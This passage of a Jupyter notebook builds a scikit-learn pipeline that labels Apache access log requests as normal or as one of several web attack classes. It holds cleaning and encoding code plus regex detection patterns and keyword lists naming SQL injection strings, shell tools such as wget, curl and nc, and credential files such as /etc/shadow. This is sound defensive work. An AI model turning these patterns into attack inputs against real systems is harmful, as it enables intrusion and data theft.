- HTTP method standardization  
- Malformed record repair  


In [9]:
class DataCleanerTransformer(BaseEstimator, TransformerMixin):
    """
    Sklearn-compatible transformer for cleaning raw Apache access log data.

    Responsibilities
    ----------------
    - Remove duplicate rows
    - Impute missing values with safe defaults
    - Normalize URL paths (lowercase, strip trailing slashes)
    - Normalize query_parameters (lowercase, strip whitespace)
    - Normalize user_agent (strip, fill missing with 'unknown')
    - Standardize HTTP methods (uppercase, replace invalid with 'UNKNOWN')
    - Parse and validate timestamps
    - Fix negative response sizes

    Parameters
    ----------
    remove_duplicates : bool
        If True, drop duplicate rows (default True).
    valid_methods : set
        Set of accepted HTTP method strings.
    """

    VALID_METHODS = {"GET", "POST", "PUT", "DELETE", "PATCH", "HEAD", "OPTIONS", "TRACE"}

    def __init__(self, remove_duplicates: bool = True):
        self.remove_duplicates = remove_duplicates

    def fit(self, X: pd.DataFrame, y=None):
        """No fitting required — pure rule-based transformer."""
        return self

    def transform(self, X: pd.DataFrame, y=None) -> pd.DataFrame:
        """Apply all cleaning steps and return a cleaned DataFrame."""
        df = X.copy()

        # 1. Remove duplicates
        if self.remove_duplicates:
            before = len(df)
            df = df.drop_duplicates()
            dropped = before - len(df)
            if dropped:
                logger.info(f"[Cleaner] Removed {dropped:,} duplicate rows.")

        # 2. Parse timestamps — coerce malformed → NaT → fill with median
        df["timestamp"] = pd.to_datetime(df["timestamp"], errors="coerce")
        if df["timestamp"].isnull().any():
            median_ts = df["timestamp"].dropna().median()
            df["timestamp"] = df["timestamp"].fillna(median_ts)
            logger.info("[Cleaner] Filled malformed timestamps with median.")

        # 3. HTTP method — uppercase, clamp to known set
        df["http_method"] = df["http_method"].str.strip().str.upper().fillna("GET")
        df["http_method"] = df["http_method"].apply(
            lambda m: m if m in self.VALID_METHODS else "UNKNOWN"
        )

        # 4. URL — lowercase, strip trailing slash (keep root "/")
        df["url"] = (
            df["url"].fillna("/")
            .str.strip()
            .str.lower()
        )
        df["url"] = df["url"].apply(
            lambda u: u.rstrip("/") if u not in ("/", "") else "/"
        )

        # 5. Query parameters — fillna, lowercase, strip
        df["query_parameters"] = (
            df["query_parameters"].fillna("").str.strip().str.lower()
        )

        # 6. User agent — fill missing, strip
        df["user_agent"] = (
            df["user_agent"].fillna("unknown").str.strip()
        )
        df["user_agent"] = df["user_agent"].replace("", "unknown")

        # 7. Referrer — fill missing with dash convention
        df["referrer"] = df["referrer"].fillna("-").str.strip()
        df["referrer"] = df["referrer"].replace("", "-")

        # 8. status_code — coerce, fill with 200
        df["status_code"] = pd.to_numeric(df["status_code"], errors="coerce").fillna(200).astype(int)

        # 9. response_size — coerce, clamp negatives to 0
        df["response_size"] = pd.to_numeric(df["response_size"], errors="coerce").fillna(0).astype(int)
        df["response_size"] = df["response_size"].clip(lower=0)

        # 10. source_ip — fill missing with placeholder
        df["source_ip"] = df["source_ip"].fillna("0.0.0.0").str.strip()

        logger.info(f"[Cleaner] Cleaning complete. Output shape: {df.shape}")
        return df.reset_index(drop=True)


# ── Quick Sanity Check ────────────────────────────────────────────────────────
cleaner = DataCleanerTransformer()
df_clean = cleaner.fit_transform(df_raw)

print("✅ DataCleanerTransformer validated.")
print(f"   Input  shape : {df_raw.shape}")
print(f"   Output shape : {df_clean.shape}")
print(f"   Missing in output:\n{df_clean.isnull().sum()[df_clean.isnull().sum() > 0].to_string() or '   None'}")


INFO: [Cleaner] Cleaning complete. Output shape: (100000, 10)


✅ DataCleanerTransformer validated.
   Input  shape : (100000, 10)
   Output shape : (100000, 10)
   Missing in output:
Series([], )


---
## ⚙️ Section 8 — Feature Engineering

`FeatureEngineeringTransformer` extracts 50+ cybersecurity-specific features  
from the raw log fields, organized into:

- **Timestamp features** — hour, day, weekday, month, weekend flag, business hours flag  
- **URL features** — length, depth, entropy, traversal count, encoded characters, special chars  
- **Query features** — length, suspicious keyword count, encoded ratio, symbol ratio  
- **HTTP features** — method type, status code, response size  
- **User-agent features** — length, browser type, mobile flag, crawler flag  
- **Behavior features** — per-IP aggregates (requests, unique URLs, failure rate)  
- **Security indicators** — regex pattern counts for SQLi, XSS, CMDi, LFI, RFI, traversal  


In [10]:
# ── Security Pattern Definitions ─────────────────────────────────────────────
SQL_PATTERNS = re.compile(
    r"(union|select|insert|update|delete|drop|create|alter|exec|execute|"
    r"xp_|sp_|0x[0-9a-f]+|--|;--|\/\*|\*\/|char\(|cast\(|convert\(|"
    r"information_schema|sys\.|benchmark\(|sleep\(|waitfor|"
    r"having|group\s+by|order\s+by|load_file|into\s+outfile|"
    r"'\s*or\s*'?1'?\s*=\s*'?1|or\s+1=1)",
    re.IGNORECASE
)

XSS_PATTERNS = re.compile(
    r"(<script|</script|javascript:|vbscript:|onload=|onerror=|onclick=|"
    r"onmouseover=|<img|<iframe|<svg|<object|<embed|alert\(|"
    r"document\.cookie|window\.location|eval\(|String\.fromCharCode|"
    r"\bxss\b|<[a-z]+\s+on\w+=)",
    re.IGNORECASE
)

CMD_PATTERNS = re.compile(
    r"(;\s*(?:ls|cat|id|whoami|uname|pwd|wget|curl|nc|bash|sh|python|perl|php)|"
    r"\|\s*(?:ls|cat|id|whoami)|&&\s*(?:ls|cat|id|whoami)|"
    r"`[^`]+`|\$\([^)]+\)|%0a|%0d|\\n|\\r|"
    r"/bin/|/etc/passwd|/etc/shadow|cmd\.exe|powershell)",
    re.IGNORECASE
)

TRAVERSAL_PATTERNS = re.compile(
    r"(\.\./|\.\.\\|\.%2e|%2e\.|%252e|%c0%ae|%c1%9c|"
    r"\.\.%2f|%2f\.\.)",
    re.IGNORECASE
)

LFI_PATTERNS = re.compile(
    r"(/etc/passwd|/etc/shadow|/proc/self|/var/log|/var/www|"
    r"php://input|php://filter|php://fd|data://text|expect://|"
    r"file:///|\.\..*\.php|include=|require=|file=|page=|"
    r"template=.*\.log|template=.*\.ini)",
    re.IGNORECASE
)

RFI_PATTERNS = re.compile(
    r"(https?://(?!(?:localhost|127\.0\.0\.1))[^\s&]+\.php|"
    r"ftp://[^\s&]+|import=https?://|url=https?://|"
    r"file=https?://|include=https?://|src=https?://[^/]*\.(?:php|asp|jsp))",
    re.IGNORECASE
)

BRUTEFORCE_PATTERNS = re.compile(
    r"(/login|/signin|/auth|/admin|/wp-login|/administrator|"
    r"xmlrpc\.php|/api/v[0-9]+/auth|/oauth|/token|/session)",
    re.IGNORECASE
)

def _entropy(text: str) -> float:
    """Shannon entropy of a string (higher = more random/obfuscated)."""
    if not text:
        return 0.0
    n = len(text)
    freq = Counter(text)
    return -sum((c / n) * math.log2(c / n) for c in freq.values())


def _count_pattern(pattern: re.Pattern, text: str) -> int:
    """Count non-overlapping regex matches in text."""
    return len(pattern.findall(text or ""))


def _browser_type(ua: str) -> str:
    """Classify user-agent into a browser family string."""
    ua_l = (ua or "").lower()
    if "bot" in ua_l or "spider" in ua_l or "crawler" in ua_l:
        return "bot"
    if "chrome" in ua_l and "safari" in ua_l and "edge" not in ua_l and "opr" not in ua_l:
        return "chrome"
    if "firefox" in ua_l:
        return "firefox"
    if "safari" in ua_l and "chrome" not in ua_l:
        return "safari"
    if "edge" in ua_l or "edg/" in ua_l:
        return "edge"
    if "opr/" in ua_l or "opera" in ua_l:
        return "opera"
    if "curl" in ua_l or "wget" in ua_l or "python" in ua_l or "go-http" in ua_l:
        return "tool"
    if "libwww" in ua_l or "perl" in ua_l:
        return "script"
    if ua_l in ("", "unknown", "-"):
        return "unknown"
    return "other"


print("✅ Security patterns and helper functions defined.")
print(f"   SQL pattern groups  : {SQL_PATTERNS.groups}")
print(f"   XSS pattern groups  : {XSS_PATTERNS.groups}")
print(f"   CMD pattern groups  : {CMD_PATTERNS.groups}")
print(f"   Traversal groups    : {TRAVERSAL_PATTERNS.groups}")
print(f"   LFI pattern groups  : {LFI_PATTERNS.groups}")
print(f"   RFI pattern groups  : {RFI_PATTERNS.groups}")


✅ Security patterns and helper functions defined.
   SQL pattern groups  : 1
   XSS pattern groups  : 1
   CMD pattern groups  : 1
   Traversal groups    : 1
   LFI pattern groups  : 1
   RFI pattern groups  : 1


In [11]:
class FeatureEngineeringTransformer(BaseEstimator, TransformerMixin):
    """
    Sklearn-compatible transformer that extracts 50+ cybersecurity features
    from cleaned Apache access log data.

    All features are computed deterministically from the input fields;
    no external state or fitting is required.

    Feature Groups
    --------------
    timestamp   : hour, day, weekday, month, weekend_flag, business_hours_flag
    url         : url_length, path_depth, slash_count, dot_count,
                  parameter_count, special_char_count, traversal_count,
                  encoded_char_count, entropy_score
    query       : query_length, suspicious_keyword_count, encoded_ratio,
                  symbol_ratio
    http        : method_type (raw), status_code, response_size
    user_agent  : user_agent_length, browser_type, mobile_flag, crawler_flag
    behavior    : requests_per_ip, unique_urls_per_ip, failed_requests_per_ip,
                  successful_requests_per_ip, attack_density
    security    : sql_score, xss_score, cmd_score, traversal_score,
                  lfi_score, rfi_score, brute_score, total_threat_score
    """

    def fit(self, X: pd.DataFrame, y=None):
        """
        Compute per-IP aggregates from training data.
        Stored as a mapping so inference uses training-time statistics.
        """
        df = X.copy()
        df["timestamp"] = pd.to_datetime(df["timestamp"], errors="coerce")

        # Build IP behavior profiles on training data
        # self.ip_stats_ = self._compute_ip_stats(df)
        # logger.info(
        #     f"[FeatEng] Fitted. IP profiles: {len(self.ip_stats_):,} unique IPs."
        # )
        return self

    def transform(self, X: pd.DataFrame, y=None) -> pd.DataFrame:
        """Extract all features and return an augmented DataFrame."""
        df = X.copy()
        df["timestamp"] = pd.to_datetime(df["timestamp"], errors="coerce")

        # ── Timestamp features ────────────────────────────────────────────────
        df["hour"]                = df["timestamp"].dt.hour.fillna(0).astype(int)
        df["day"]                 = df["timestamp"].dt.day.fillna(1).astype(int)
        df["weekday"]             = df["timestamp"].dt.dayofweek.fillna(0).astype(int)
        df["month"]               = df["timestamp"].dt.month.fillna(1).astype(int)
        df["weekend_flag"]        = df["weekday"].apply(lambda x: 1 if x >= 5 else 0)
        df["business_hours_flag"] = df["hour"].apply(lambda x: 1 if 9 <= x <= 17 else 0)

        # ── URL features ──────────────────────────────────────────────────────
        url = df["url"].fillna("/")
        df["url_length"]           = url.str.len()
        df["path_depth"]           = url.apply(lambda x: len([p for p in x.split("/") if p]))
        df["slash_count"]          = url.str.count(r"/")
        df["dot_count"]            = url.str.count(r"\.")
        df["parameter_count"]      = url.str.count(r"[?&]")
        df["special_char_count"]   = url.str.count(r"[<>'\"\[\]{}|\\^`]")
        df["traversal_count"]      = url.str.count(r"\.\.")
        df["encoded_char_count"]   = url.str.count(r"%[0-9a-fA-F]{2}")
        df["entropy_score"]        = url.apply(_entropy)

        # ── Query features ────────────────────────────────────────────────────
        q = df["query_parameters"].fillna("")
        df["query_length"]             = q.str.len()
        df["suspicious_keyword_count"] = q.apply(
            lambda x: sum(kw in x.lower() for kw in [
                "union", "select", "script", "alert", "exec", "cmd", "eval",
                "drop", "insert", "update", "delete", "passwd", "etc",
                "shell", "wget", "curl", "chmod", "php://", "http://", "https://"
            ])
        )
        total_len = q.str.len().replace(0, 1)
        df["encoded_ratio"]    = q.str.count(r"%[0-9a-fA-F]{2}") / total_len
        df["symbol_ratio"]     = q.str.count(r"[<>'\"&;|\$`]") / total_len

        # ── HTTP features ─────────────────────────────────────────────────────
        df["method_type"]    = df["http_method"].fillna("GET")
        df["status_code"]    = df["status_code"].fillna(200).astype(int)
        df["response_size"]  = df["response_size"].fillna(0).astype(int)

        # ── User-agent features ───────────────────────────────────────────────
        ua = df["user_agent"].fillna("unknown")
        df["user_agent_length"] = ua.str.len()
        df["browser_type"]      = ua.apply(_browser_type)
        df["mobile_flag"]       = ua.str.contains(
            r"android|iphone|ipad|mobile|blackberry|windows phone",
            case=False, regex=True, na=False
        ).astype(int)
        df["crawler_flag"] = ua.str.contains(
            r"bot|spider|crawler|slurp|scrapy|curl|wget|python|libwww|go-http",
            case=False, regex=True, na=False
        ).astype(int)
        

        # ── Security indicator features ───────────────────────────────────────
        combined = (
            df["url"].fillna("") + " " + df["query_parameters"].fillna("")
        )
        df["sql_score"]       = combined.apply(lambda x: _count_pattern(SQL_PATTERNS, x))
        df["xss_score"]       = combined.apply(lambda x: _count_pattern(XSS_PATTERNS, x))
        df["cmd_score"]       = combined.apply(lambda x: _count_pattern(CMD_PATTERNS, x))
        df["traversal_score"] = combined.apply(lambda x: _count_pattern(TRAVERSAL_PATTERNS, x))
        df["lfi_score"]       = combined.apply(lambda x: _count_pattern(LFI_PATTERNS, x))
        df["rfi_score"]       = combined.apply(lambda x: _count_pattern(RFI_PATTERNS, x))
        df["brute_score"]     = df["url"].apply(lambda x: _count_pattern(BRUTEFORCE_PATTERNS, x))

        # logger.info(f"[FeatEng] Feature extraction complete. Shape: {df.shape}")
        return df

    # ── Private helpers ────────────────────────────────────────────────────────
    # @staticmethod
    # def _compute_ip_stats(df: pd.DataFrame) -> dict:
    #     """Build per-IP behavioral profiles from a DataFrame."""
    #     stats = {}
    #     for ip, grp in df.groupby("source_ip"):
    #         total = len(grp)
    #         failed = int((grp["status_code"] >= 400).sum())
    #         success = int((grp["status_code"] < 400).sum())
    #         unique_urls = int(grp["url"].nunique())
    #         # attack_density: fraction of rows that are not 'normal'
    #         if TARGET_COL in grp.columns:
    #             attack_rows = (grp[TARGET_COL] != "normal").sum()
    #             density = float(attack_rows / total)
    #         else:
    #             density = 0.0
    #         stats[ip] = {
    #             "requests_per_ip"           : total,
    #             "unique_urls_per_ip"        : unique_urls,
    #             "failed_requests_per_ip"    : failed,
    #             "successful_requests_per_ip": success,
    #             "attack_density"            : density,
    #         }
    #     return stats


# ── Validation ────────────────────────────────────────────────────────────────
feat_eng = FeatureEngineeringTransformer()
df_feats = feat_eng.fit_transform(df_clean)

print("✅ FeatureEngineeringTransformer validated.")
print(f"   Input  cols : {df_clean.shape[1]}")
print(f"   Output cols : {df_feats.shape[1]}")
print(f"   New features: {df_feats.shape[1] - df_clean.shape[1]}")
new_cols = [c for c in df_feats.columns if c not in df_clean.columns]
print(f"   Feature list: {new_cols}")


✅ FeatureEngineeringTransformer validated.
   Input  cols : 10
   Output cols : 41
   New features: 31
   Feature list: ['hour', 'day', 'weekday', 'month', 'weekend_flag', 'business_hours_flag', 'url_length', 'path_depth', 'slash_count', 'dot_count', 'parameter_count', 'special_char_count', 'traversal_count', 'encoded_char_count', 'entropy_score', 'query_length', 'suspicious_keyword_count', 'encoded_ratio', 'symbol_ratio', 'method_type', 'user_agent_length', 'browser_type', 'mobile_flag', 'crawler_flag', 'sql_score', 'xss_score', 'cmd_score', 'traversal_score', 'lfi_score', 'rfi_score', 'brute_score']


In [12]:
# import joblib

# joblib.dump(feat_eng.ip_stats_, "ip_stats.pkl")

---
## 🔢 Section 9 — Encoding

`CategoricalEncoderTransformer` label-encodes categorical columns, handles  
unseen categories at inference time with a fallback value, and persists  
the mappings for reproducible decoding.


In [13]:
class CategoricalEncoderTransformer(BaseEstimator, TransformerMixin):
    """
    Label-encode categorical columns in the feature-engineered DataFrame.

    Design Decisions
    ----------------
    - Uses integer label encoding (LabelEncoder) per categorical column.
    - Unseen categories at inference time receive the label for 'unknown'
      or -1 if 'unknown' was not in the training vocabulary, preventing crashes.
    - Mappings are stored in `self.mappings_` for inspection and decoding.
    - The transformer will NOT crash on new IPs, URLs, or user-agent strings
      because those have already been converted to numeric features before
      this transformer runs.

    Categorical Columns Encoded
    ---------------------------
    - method_type   (HTTP method string)
    - browser_type  (classified browser family)
    """

    CAT_COLS = ["method_type", "browser_type"]

    def fit(self, X: pd.DataFrame, y=None):
        """Learn label encodings from training data."""
        self.encoders_  = {}
        self.mappings_  = {}
        self.fallback_  = {}

        for col in self.CAT_COLS:
            if col not in X.columns:
                continue
            le = LabelEncoder()
            series = X[col].fillna("unknown").astype(str)
            le.fit(series)
            self.encoders_[col]  = le
            self.mappings_[col]  = dict(zip(le.classes_, le.transform(le.classes_)))
            # Fallback: use 'unknown' label if present, else -1
            self.fallback_[col] = (
                self.mappings_[col].get("unknown", -1)
            )

        logger.info(
            f"[Encoder] Fitted. Encoded columns: {list(self.encoders_.keys())}"
        )
        return self

    def transform(self, X: pd.DataFrame, y=None) -> pd.DataFrame:
        """Apply learned label encodings; unseen → fallback value."""
        df = X.copy()
        for col, le in self.encoders_.items():
            if col not in df.columns:
                continue
            series = df[col].fillna("unknown").astype(str)
            # Map known values; unknown values get fallback
            df[col] = series.apply(
                lambda v: self.mappings_[col].get(v, self.fallback_[col])
            )
        return df

    def get_mappings(self) -> dict:
        """Return the learned label mappings for each encoded column."""
        return self.mappings_


# ── Validation ────────────────────────────────────────────────────────────────
encoder = CategoricalEncoderTransformer()
df_encoded = encoder.fit_transform(df_feats)

print("✅ CategoricalEncoderTransformer validated.")
for col in encoder.CAT_COLS:
    if col in encoder.mappings_:
        print(f"   {col}: {encoder.mappings_[col]}")

print(f"\n   Sample encoded row:")
display(df_encoded[encoder.CAT_COLS].head(3))


INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']


✅ CategoricalEncoderTransformer validated.
   method_type: {'DELETE': np.int64(0), 'GET': np.int64(1), 'POST': np.int64(2), 'PUT': np.int64(3)}
   browser_type: {'bot': np.int64(0), 'chrome': np.int64(1), 'firefox': np.int64(2), 'opera': np.int64(3), 'other': np.int64(4), 'safari': np.int64(5), 'tool': np.int64(6), 'unknown': np.int64(7)}

   Sample encoded row:


,method_type,browser_type
0,1,1
1,2,3
2,1,4


In [14]:
# import joblib

# joblib.dump(encoder, "categorical_encoder.pkl")

In [15]:
# encoder = CategoricalEncoderTransformer()
# df_encoded = encoder.fit_transform(df_feats)

In [16]:
# import joblib

# joblib.dump(encoder.get_mappings(), "cat_mappings.pkl")

---
## 🎯 Section 10 — Feature Selection

Three-stage feature selection:
1. **Constant feature removal** — drop zero-variance columns  
2. **Correlation analysis** — visualize collinearity with a heatmap  
3. **Feature importance ranking** — preliminary XGBoost-based importance for insight  


In [17]:
# ── Define final numeric feature columns used by the model ───────────────────
FEATURE_COLS = [
    # Timestamp
    "hour", "day", "weekday", "month", "weekend_flag", "business_hours_flag",
    # URL
    "url_length", "path_depth", "slash_count", "dot_count", "parameter_count",
    "special_char_count", "traversal_count", "encoded_char_count", "entropy_score",
    # Query
    "query_length", "suspicious_keyword_count", "encoded_ratio", "symbol_ratio",
    # HTTP (encoded)
    "method_type", "status_code", "response_size",
    # User agent
    "user_agent_length", "browser_type", "mobile_flag", "crawler_flag",
    # Security scores
    "sql_score", "xss_score", "cmd_score", "traversal_score",
    "lfi_score", "rfi_score", "brute_score"
    # , "total_threat_score",
]

# Verify all columns exist
missing_feat_cols = [c for c in FEATURE_COLS if c not in df_encoded.columns]
if missing_feat_cols:
    print(f"⚠️  Missing feature columns: {missing_feat_cols}")
else:
    print(f"✅ All {len(FEATURE_COLS)} feature columns present.")

X_all = df_encoded[FEATURE_COLS].copy()
y_raw = df_encoded[TARGET_COL].copy()

# ── 1. Constant Feature Removal ───────────────────────────────────────────────
vt = VarianceThreshold(threshold=0.0)
vt.fit(X_all)
constant_mask = ~vt.get_support()
constant_cols = [c for c, m in zip(FEATURE_COLS, constant_mask) if m]
if constant_cols:
    print(f"⚠️  Removing {len(constant_cols)} constant columns: {constant_cols}")
    FEATURE_COLS = [c for c in FEATURE_COLS if c not in constant_cols]
    X_all = X_all[FEATURE_COLS]
else:
    print("✅ No constant features found.")

print(f"\n   Final feature count: {len(FEATURE_COLS)}")


✅ All 33 feature columns present.
✅ No constant features found.

   Final feature count: 33


📊 High correlation pairs (|r| > 0.90): 2
   path_depth ↔ slash_count  :  0.99
   dot_count ↔ traversal_count  :  0.948




✅ Correlation heatmap rendered.


In [18]:
# ── 2. Correlation Heatmap ────────────────────────────────────────────────────
corr = X_all.corr(method="pearson")

# Identify highly correlated pairs (> 0.90) for informational purposes
high_corr_pairs = []
for i in range(len(corr.columns)):
    for j in range(i + 1, len(corr.columns)):
        if abs(corr.iloc[i, j]) > 0.90:
            high_corr_pairs.append(
                (corr.columns[i], corr.columns[j], round(corr.iloc[i, j], 3))
            )

print(f"📊 High correlation pairs (|r| > 0.90): {len(high_corr_pairs)}")
for a, b, r in high_corr_pairs:
    print(f"   {a} ↔ {b}  :  {r}")

fig, ax = plt.subplots(figsize=(16, 13))
mask = np.triu(np.ones_like(corr, dtype=bool))
sns.heatmap(
    corr, mask=mask, annot=False, fmt=".2f",
    cmap="coolwarm", center=0, vmin=-1, vmax=1,
    linewidths=0.3, ax=ax
)
ax.set_title("Feature Correlation Heatmap (Pearson)", fontsize=14, fontweight="bold")
plt.tight_layout()
plt.savefig(r"D:\c4\results\correlation_heatmap.png", bbox_inches="tight", dpi=110)
plt.show()
print("✅ Correlation heatmap rendered.")


---
## ✂️ Section 11 — Train / Validation / Test Split

Stratified split: **70% train / 15% validation / 15% test**.  
Stratification preserves the class distribution in all three partitions.


In [19]:
# ── Label Encode Target ──────────────────────────────────────────────────────
target_encoder = LabelEncoder()
y_encoded = target_encoder.fit_transform(y_raw)
CLASS_NAMES = list(target_encoder.classes_)
NUM_CLASSES = len(CLASS_NAMES)
print(f"✅ Target encoded. Classes ({NUM_CLASSES}): {CLASS_NAMES}")

# ── Feature Matrix ────────────────────────────────────────────────────────────
X = X_all.values.astype(np.float32)
y = y_encoded

# ── Stratified Split: 70% train, 15% val, 15% test ───────────────────────────
X_trainval, X_test, y_trainval, y_test = train_test_split(
    X, y, test_size=TEST_RATIO, random_state=RANDOM_STATE, stratify=y
)
X_train, X_val, y_train, y_val = train_test_split(
    X_trainval, y_trainval,
    test_size=VAL_RATIO / (TRAIN_RATIO + VAL_RATIO),
    random_state=RANDOM_STATE,
    stratify=y_trainval
)

print(f"\n📐 Split summary:")
print(f"   Train      : {X_train.shape[0]:>7,} rows  ({X_train.shape[0]/len(X)*100:.1f}%)")
print(f"   Validation : {X_val.shape[0]:>7,} rows  ({X_val.shape[0]/len(X)*100:.1f}%)")
print(f"   Test       : {X_test.shape[0]:>7,} rows  ({X_test.shape[0]/len(X)*100:.1f}%)")

# ── Verify class distribution ─────────────────────────────────────────────────
def dist_table(y_arr, name):
    counts = Counter(y_arr)
    rows = [(CLASS_NAMES[k], counts[k], counts[k] / len(y_arr) * 100) for k in sorted(counts)]
    df_d = pd.DataFrame(rows, columns=["Class", "Count", "Pct%"])
    df_d["Pct%"] = df_d["Pct%"].round(2)
    print(f"\n  {name} class distribution:")
    display(df_d)

dist_table(y_train, "Train")
dist_table(y_val,   "Validation")
dist_table(y_test,  "Test")


✅ Target encoded. Classes (9): ['benign_suspicious', 'bruteforce', 'command_injection', 'directory_traversal', 'lfi', 'normal', 'rfi', 'sql_injection', 'xss']

📐 Split summary:
   Train      :  69,999 rows  (70.0%)
   Validation :  15,001 rows  (15.0%)
   Test       :  15,000 rows  (15.0%)

  Train class distribution:


,Class,Count,Pct%
0,benign_suspicious,10500,15.0000
1,bruteforce,2800,4.0000
2,command_injection,2800,4.0000
3,directory_traversal,4900,7.0000
4,lfi,5600,8.0000
5,normal,24499,35.0000
6,rfi,4900,7.0000
7,sql_injection,7000,10.0000
8,xss,7000,10.0000



  Validation class distribution:


,Class,Count,Pct%
0,benign_suspicious,2250,15.0000
1,bruteforce,600,4.0000
2,command_injection,600,4.0000
3,directory_traversal,1050,7.0000
4,lfi,1200,8.0000
5,normal,5251,35.0000
6,rfi,1050,7.0000
7,sql_injection,1500,10.0000
8,xss,1500,10.0000



  Test class distribution:


,Class,Count,Pct%
0,benign_suspicious,2250,15.0000
1,bruteforce,600,4.0000
2,command_injection,600,4.0000
3,directory_traversal,1050,7.0000
4,lfi,1200,8.0000
5,normal,5250,35.0000
6,rfi,1050,7.0000
7,sql_injection,1500,10.0000
8,xss,1500,10.0000


In [20]:
import joblib

